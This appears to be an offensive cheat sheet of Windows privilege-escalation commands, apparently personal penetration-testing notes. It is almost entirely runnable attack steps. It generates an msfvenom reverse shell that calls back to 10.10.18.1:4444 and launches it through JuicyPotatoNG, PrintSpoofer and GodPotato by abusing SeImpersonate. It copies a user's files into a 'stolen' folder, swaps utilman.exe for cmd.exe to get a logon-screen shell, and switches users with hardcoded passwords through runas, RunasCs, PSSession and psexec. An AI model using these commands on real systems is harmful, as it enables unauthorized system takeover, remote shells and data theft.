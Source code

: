 ### Privilege

SeImpersonate

```jsx
whoami /priv

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.18.1 LPORT=4444 EXITFUNC=thread -f exe --platform windows -o rs.exe

.\JuicyPotatoNG.exe -t * -p rs.exe

//Windows 10 and Server 2016/2019

If spooler service is stopped, printspoofer.exe will not work
PS C:\Services> get-service | findstr -i "spooler"
get-service | findstr -i "spooler"
Stopped  Spooler            Print Spooler  

.\PrintSpoofer64.exe -c rs.exe

//Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version
.\GodPotato.exe -cmd "cmd /c rs.exe"

```

SeBackupPrivilege

```jsx
//may also works when Privilege enabled / presented but disabled
robocopy /b C:\Users\enterpriseadmin\Desktop\ .\stolen
```

SeRestorePrivilege

```jsx
rename-item C:\Windows\system32\utilman.exe C:\Windows\system32\utilman.old
rename-item C:\Windows\system32\cmd.exe C:\Windows\system32\utilman.exe

rdesktop 192.168.15.1
WIN + U
```

### Switch User

```powershell
runas  /user:backupadmin cmd  #require GUI

https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "C:\transfer\rs.exe"
.\RunasCs.exe thecybergeek winniethepooh "whoami" --bypass-uac --logon-type '5'

$password = ConvertTo-SecureString "password!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
whoami

impacket-psexec vector/administrator@192.168.1.1
```
